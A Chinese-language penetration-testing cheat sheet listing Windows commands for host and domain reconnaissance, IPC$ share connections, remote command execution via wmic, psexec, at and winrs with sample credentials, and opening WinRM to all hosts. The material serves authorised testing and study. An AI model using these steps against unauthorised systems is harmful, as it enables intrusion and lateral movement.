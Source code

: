 # 渗透测试—— Windows 系统常用命令

## 0x01 信息收集
### 1.1 本机信息
 - 查看系统信息 ： `systeminfo`
 - 查看进程 ： `tasklist`
 - 查看当前工作目录  : `chdir` 
 - 查看网络会话 ： `netsat -ano`
 - 查看用户： `net user`
 - 查看管理员：`net localgroup administrators `
 - 查看abc用户信息：`net user abc`
 - 查看文件共享：`net use`
 - 查看远程桌面连接历史： `cmdkey /l`
 - 查看杀毒软件 ： `wmic /namespace:\\root\securitycenter2 path antivirusproduct GET displayName,productState, pathToSignedProductExe`
 - 查询登录用户：`query user`
### 1.2 域信息
> 有时候本地用户无法查到相关信息，可以通过runas切换到域用户进行查询。      

- 查看域：`net view /domain`
- 查看abc域中的主机：`net view /domain:abc` 
- 查看域用户 ：`net user /domain`
- 查看域管理员 ： `net group "domain admin" /domain`
- 查看本机域管理员 ：`net localgroup administrators /domain `
- 查看域控主机 ：`dsquery server`  or `net group “domain controllers” /domain`
## 0x02 远程文件操作
### net use
前置条件：目标主机开启IPC$共享（端口：445）      
目标主机：192.168.0.1 用户名：abc 密码：password
- 建立空连接: `net use \\192.168.0.1\ipc$ "" /user:"" `
- 建立非空连接: `net use \\192.168.0.1\ipc$ "password" /user:"abc" `
 - 映射默认共享: `net use z: \\192.168.0.1\c$ "password" /user:"abc"`
 - 删除一个ipc$连接： `net use \\192.168.0.1\ipc$ /del`
- 删除映射的z盘: `net use z: /del `

### net share
本机开启共享：   
```
net share c$=c:
net share d$=d:
net share ipc$
net share admin$
```

### 文件操作
- 压缩文件（默认导出压缩文件最后一个字符改为`_`）： `makecab  file`
- 解压文件： `expand src tar.zip`

## 0x03 远程命令执行
### wmic
前置条件：目标开启 "Windows Management Instrumentation" 服务（端口：135）   
目标主机：192.168.0.1 用户名：abc 密码：password   
- 执行命令 ： `wmic /node:192.168.0.1 /user:abc /password:password PROCESS call create "cmd /c ver > c:\\test.txt"`

### psexec
>一般配合net use 将输出导出到文件读取，完成回显的任务      
前置条件：目标开启 ADMIN$ 共享（端口：445）   
工具：https://docs.microsoft.com/zh-cn/sysinternals/downloads/pstools   
目标主机：192.168.0.1 用户名：abc 密码：password   
- 执行命令(交互式shell) ： `psexec \\192.168.0.1 -u abc -p password cmd`

### at
前置条件：目标启动 Task Scheduler 服务    
目标主机：192.168.0.1 用户名：abc 密码：password  

- 添加计划任务在远程系统上执行命令: `at \\192.168.0.1 23:00 cmd.exe /c "ver > c:\test.txt"`
- 查看 at 任务列表: `at \\192.168.0.1`
- 删除 at 计划任务: `at \\192.168.17.138 1 /delete`

### winrm
前置条件：目标启动winrm服务（5985,5986端口）
目标启动快速启动winrm服务：
```
winrm quickconfig -q
winrm set winrm/config/Client @{TrustedHosts="*"}
```
目标主机：192.168.0.1 用户名：abc 密码：password  
执行命令： `winrs -r:http://192.168.0.1:5985 -u:abc -p:password  "whoami /all"`


## 0x04 权限切换

- 通过abc用户权限启动cmd：
`runas /user:abc cmd`


## ref
- https://chen1sheng.github.io/2020/11/30/%E6%B8%97%E9%80%8F/windows/Windows%E5%9F%9F%E6%B8%97%E9%80%8F%E5%B8%B8%E8%A7%81%E5%91%BD%E4%BB%A4/
- https://www.cnblogs.com/LyShark/p/11344288.html
- https://cloud.tencent.com/developer/article/1180419
